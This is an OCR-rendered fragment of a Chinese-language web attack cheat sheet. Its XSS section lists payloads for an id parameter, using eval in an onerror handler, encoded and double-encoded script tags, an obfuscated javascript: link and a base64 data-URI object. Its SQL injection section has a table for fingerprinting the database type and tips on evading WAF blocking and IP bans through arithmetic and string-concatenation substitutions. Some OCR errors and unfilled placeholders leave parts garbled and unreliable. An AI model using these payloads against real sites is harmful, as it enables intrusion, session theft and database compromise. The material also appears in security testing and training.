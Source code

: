     ?id=<img src=x:alert(alt) onerror=eval(src) alt=0>
    
    ?id=%3cscript%3ealert(1)%3c%2fscript%3c 
    
    ?id=<a href="javas&#99;ript&#35;alert(1);">
    
    id=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2531%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e
    
    ?id=<object+data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
    
    ?id=1234&"><script>alert(1)</script>=1234     #参数名
    
        

直接在文件名例如asp、php后加即可绕过-
参考文章：

    https://www.cnblogs.com/lcamry/articles/5622244.html
    
        

* * *

##### SQL

简单判别诸如点以及数据库类型 ：

    I 数据库类型丨连接符丨注释符号丨其他特殊方式丨唯一的默认表变量和函数 
    
    I MSSQL| %2B (URL加号编码) | -- | 待补充丨@@PACK_RECEIVED 
    
    I MYSQL| %20 (URL空格编码)丨# / -- | 待补充 |  CONNECTION_ID() 
    
    I Oracle I %7C (URL竖线编码) | -- 待补充 | BITAND(1,1) 
    
    I PGsql | %7C (URL竖线编码) | -- |ad1::int=1 | getpgusername() 
    
    | Access | %26 (URL与号编码) | N/A | 待补充 | msysobjects
    
        

为避免被wa拦截以及封禁P,注入建议不首先使用and以及o语句。

可用如下方式替换：

数字型注入：

    ?id=2*2
    
    ?id=4
    
        

字符型注入，根据上表判断】

    ?key=wo'+'rd
    
    ?key=wo'||'rd
    
    ?key=wo' 'rd
    
        

* * *
